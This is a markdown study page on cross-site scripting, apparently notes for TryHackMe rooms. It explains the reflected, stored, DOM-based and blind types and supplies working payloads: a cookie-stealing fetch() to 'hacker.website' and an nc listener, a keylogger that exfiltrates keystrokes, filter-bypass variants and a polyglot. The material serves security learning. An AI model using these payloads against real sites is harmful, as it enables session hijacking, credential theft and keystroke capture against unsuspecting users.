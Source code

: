 # XSS vulnerabilities (Javascript)

[![xssgi](../../../_badges/thmp/xssgi.svg)](https://tryhackme.com/room/xssgi)
[![xssgi](../../../_badges/thmp/xss.svg)](https://tryhackme.com/room/xss)

<div class="row row-cols-md-2"><div>

Cross-site Scripting, most commonly called **XSS**, refer to injecting malicious JavaScript in a web application with the goal of it being executed by other users.

**The usual proof of concept**: show an alert if the script was executed.

```js
<script>alert('XSS')</script>
```

I think you would enjoy more

```js
<script>console.log('XSS')</script>
```

You will most likely use these references:

* [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection) (42.5k ⭐)
* [OWASP Filter Evasion](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html) (22k ⭐)
* [OWASP DOM XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html) (22k ⭐)

<br>

One thing to remember is that you would rather make it invisible to the user that a script is being executed in its browser. As such, if you inject a malicious payload in the source attribute of an image field, it would be best to still make sure an image is properly displayed, so that it does not look suspicious at first glance.

</div><div>

<p class="text-center">Some attacks</p>

**Session hijacking**: anyone executing this script will send their cookie to a malicious website owned by the hacker used to capture cookies. The script is using `btoa()` to encode in base64 the values. Sessions cookies are gold 💰, because with them, we can simulate that we are logged, and bypass verifications such as 2FA.

```html
<script>fetch('https://hacker.website/hijack?cookie=' + btoa(document.cookie));</script>
<!--
CTF: nc -nlvp port | And use the ip:port
Decode: sed -n 's/GET \/?cookie=\(.*\)/\1/p' request | base64 -d
-->
<script>fetch('http://ip:port/?cookie=' + btoa(document.cookie));</script>
```

**A keylogger**: send keys pressed to the hacker website. The script is using `btoa()` to encode in base64 the values.

<details class="details-n">
<summary>See code</summary>

```html
<script>
    let keys = ''
    document.onkeydown = e => keys += e.key
    setInterval(() => {
        if (keys === '') return
        fetch('https://hacker.website/keylogger?key=' + btoa(keys) )
        keys = ''
    }, 1000)
</script>
```
</details>

* Exploit the client privileges to query the website API if any
* Map open ports on the target
* ...

> See [XSS-payloads](http://www.xss-payloads.com/payloads-list.html?a#category=all) for more exploits, but it's a bit old.
</div></div>

<hr class="sl">

## Reflected XSS

<div class="row row-cols-md-2"><div>

The malicious code is usually inside a URL, and the vulnerable website when loading the URL, will execute the malicious website.
</div><div>

For instance, "https://vulnerable.search.engine" is a search engine in which the query is stored in the URL in the parameter `q`. The website is vulnerable to XSS, so if we open the URL, then the javascript will run in our browser.

```
https://vulnerable.search.engine/?q=%3Cscript%3Ealert(%27XSS%27)%3B%3C%2Fscript%3E
```
</div></div>

<hr class="sr">

## Stored XSS

<div class="row row-cols-md-2"><div>

The malicious code is stored by the website, usually in a database. Then, in another page loading the data from the database, a vulnerable website will execute the malicious code.

> Comments, profiles, listings... may be vulnerable.
</div><div>

For instance, a user using the value `<script>alert('XSS');</script>` as username. Then, for instance on the vulnerable profile page, any user opening a link to the compromised profile, will execute the malicious code.
</div></div>

<hr class="sl">

## DOM Based XSS

<div class="row row-cols-md-2"><div>

DOM Based XSS mean using the document events such as when a tag is loaded, when an image is hovered, and so on, to execute javascript. It should be viewed as something used by both Reflected and Stored XSS when we can't use the TAG `<script>`.
</div><div>

```html
<img src="https://duckduckgo.com/assets/logo_homepage.alt.v108.svg"
     onload="alert('XSS#load')"
     onerror="alert('XSS#error')"
     onmouseover="alert('XSS#hover')"
/>
```
</div></div>

<hr class="sr">

## Blind XSS

<div class="row row-cols-md-2"><div>

In blind XSS, you are usually sending a payload in a contact/support... forms, in order to maybe steal information from the admin-side website if any. We are calling it "blind XSS", because it's not possible to see if it's working.
</div><div>

See [xsshunter](https://github.com/mandatoryprogrammer/xsshunter) (1.2k ⭐)
</div></div>

<hr class="sl">

## XSS payloads

<table class="table table-bordered table-striped border-dark mt-4">
<thead>
<tr><th>Case</th><th>HTML</th><th>Payload</th></tr>
</thead>
<tbody>

<tr><td>Boxed attribute</td><td><code>&lt;input value="here"&gt;</code></td><td><code>">MaliciousCodeHere</code></td></tr>

<tr><td>Unboxed attribute</td><td><code>&lt;input value=here&gt;</code></td><td><code>>MaliciousCodeHere</code></td></tr>

<tr><td>Wrapped</td><td><code>&lt;textarea>here&lt;/textarea&gt;</code></td><td><code>&lt;/textarea&gt;MaliciousCodeHere</code></td></tr>

<tr><td>JavaScript</td><td><code>xxx.innerHTML = 'here';</code></td><td><code>';MaliciousCodeHere;//</code></td></tr>

<tr><td>Boxed Image</td><td><code>&lt;img src="here" alt="xxx"/&gt;</code></td><td><code>URL" onload="maliciousCodeHere"</code></td></tr>

<tr><td>Boxed Image</td><td><code>&lt;img src="here" alt="xxx"/&gt;</code></td><td><code>URL" onerror="maliciousCodeHere"</code></td></tr>

</tbody></table>

<hr class="sr">

## Bypass filters

<div class="row row-cols-md-2"><div>

**Logic flaw**

For instance, a dropdown in which a user is supposed to pick a country. A hacker can try to inject a malicious payload instead of a country. If the developer didn't check the field because the value were supposedly limited to the one the developer picked, then we have a logic flaw.

**Bypass HTML symbols filtering**

If `<`, and `>` are filtered, an attacker may still use DOM Based XSS.

**Bypass DOM Based Filtering**

If there is a filter removing every attribute such as `onload`, `onmouseover`... Then you could try variants as HTML is case-insensitive.

```html
<img src="" ONERROR="alert('XSS')" />
```

</div><div>

**Bypass keywords filtering**

Most functions to filter something will only pass on the text once. It means that if the hacker know that something is filtered, he may create a payload that is only working after being filtered. For instance, below the filter will remove the "&lt;script&gt;", so the "&lt;s" and the "cript&gt;" will be concatenated, effectively bypassing the filter.

```html
<s<script>cript>alert('XSS');</s<script>cript>
// filter remove "<script>"
<script>alert('XSS');</script>
```

You can also try variants if the filter is case-sensitive

```html
<scIpT>alert('XSS');</scIpT>
```

Another way of bypassing keyword filtering is using alternate forms. For instance, with the function `alert`, we could do.

```html
<img src="NOT_FOUND" onerror="eval('aler'+'t')('XSS')">
<img src="NOT_FOUND" onerror=&#X61;&#X6C;&#X65;&#X72;&#X74;('XSS')>
```
</div></div>

<hr class="sl">

## Polyglots - the magic payloads

<div class="row row-cols-md-2"><div>

XSS polyglots are sort of magic payloads designed to bypass many tags/attributes/filters/... at once.
</div><div>

An example

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('XSS') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('XSS')//>\x3e
```
</div></div>